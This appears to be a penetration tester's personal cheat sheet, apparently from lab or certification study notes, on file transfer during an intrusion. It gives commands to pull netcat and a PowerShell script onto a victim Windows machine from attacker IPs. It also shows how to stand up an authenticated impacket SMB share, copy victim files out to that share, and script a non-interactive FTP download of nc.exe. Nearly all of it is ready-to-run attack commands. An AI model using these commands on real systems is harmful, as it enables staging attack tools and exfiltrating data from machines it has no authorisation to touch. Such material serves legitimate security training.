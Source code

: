 ### Upload

Netcat execution for windows.
From victim machine:
```powershell
curl http://10.10.16.4/nc.exe -o nc.exe
```
Examples:
[[StreamIO#^40a776]]

### Network File System through SMB
First create with impacket the server locally on attacker machine:
```bash
impacket-smbserver shareFolder $(pwd) -smb2support
```
Then you can access directly to this folder from the file explorer itself, by putting the address on the search bar:
```bash
\\192.168.119.186\shareFolder
```
![[Pasted image 20220907003801.png]]
If by any chance we get the following error:
![[Pasted image 20230129045937.png]]
We need to create a share with authentication to mount our share in the victim machine as another NFS:
```bash
impacket-smbserver shareFolder $(pwd) -smb2support -username shuciran -password shuciran123
```
Next, to mount it on a NFS on the victim machine we execute the following command:
```bash
net use x: \\10.10.14.4\shareFolder /user:shuciran shuciran123
```
Then we can check if the x:\ NFS is mounted:
```bash
dir x:\
```

### Powershell
```powershell
powershell Invoke-WebRequest -Uri http://10.10.119.207/GetCLSID.ps1 -Outfile GetCLSID.ps1
```

# Download

### SMB
To download files from the victim machine all you need to do is to copy within the SMB Shared Folder:
```cmd
copy <file> \\192.168.119.186\shareFolder
```

### Non-Interactive FTP Download
For installation and setup on attack machine please refer to [[FTP Server]]
First, we will place a file in our /ftphome directory:
```bash
kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/
```
We have already installed and configured Pure-FTPd on our Kali machine, but we will restart it to make sure the service is available:
```bash
kali@kali:~$ sudo systemctl restart pure-ftpd
```
Next execute following command:
```cmd
echo open 192.168.243.142 21> ftp.txt && echo USER offsec>> ftp.txt && echo password>> ftp.txt && echo bin >> ftp.txt && echo GET nc.exe >> ftp.txt && echo bye >> ftp.txt
```
Initiate FTP with commands on it:
```bash
C:\Users\offsec> ftp -v -n -s:ftp.txt
```
When the ftp command runs, our download should have executed, and a working copy of nc.exe should appear in our current directory:
```bash
C:\Users\offsec> ftp -v -n -s:ftp.txt
open 192.168.1.31 21
USER offsec
bin
GET nc.exe
bye
```



